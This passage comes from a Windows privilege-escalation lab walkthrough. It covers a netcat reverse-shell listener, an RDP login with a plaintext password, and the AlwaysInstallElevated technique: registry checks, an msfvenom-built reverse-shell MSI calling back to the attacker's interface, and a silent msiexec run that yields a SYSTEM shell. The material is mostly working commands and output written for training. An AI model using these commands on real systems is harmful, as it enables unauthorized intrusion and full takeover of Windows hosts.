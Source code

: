 
```powershell
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.240.109 49916
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

#######################################################

❯ xfreerdp /u:admin /p:password123 /cert:ignore /v:10.10.240.109
```


### **AlwaysInstallElevated**


- Query the registry for `AlwaysInstallElevated` keys:
	- make sure both keys are set to 1 (`0x1`).

```powershell
C:\PrivEsc>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\PrivEsc>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```


- Generate a `.msi` reverse executable with `msfvenom`


```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f msi -o reverse.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```


- Transfer the `reverse.msi` file to target 
- Start a listener then run the installer to trigger a reverse shell with SYSTEM privileges:


```powershell
❯ nc -lvnp 1337
Listening on 0.0.0.0 1337
Connection received on 10.10.162.79 49757
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

#######################################################

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```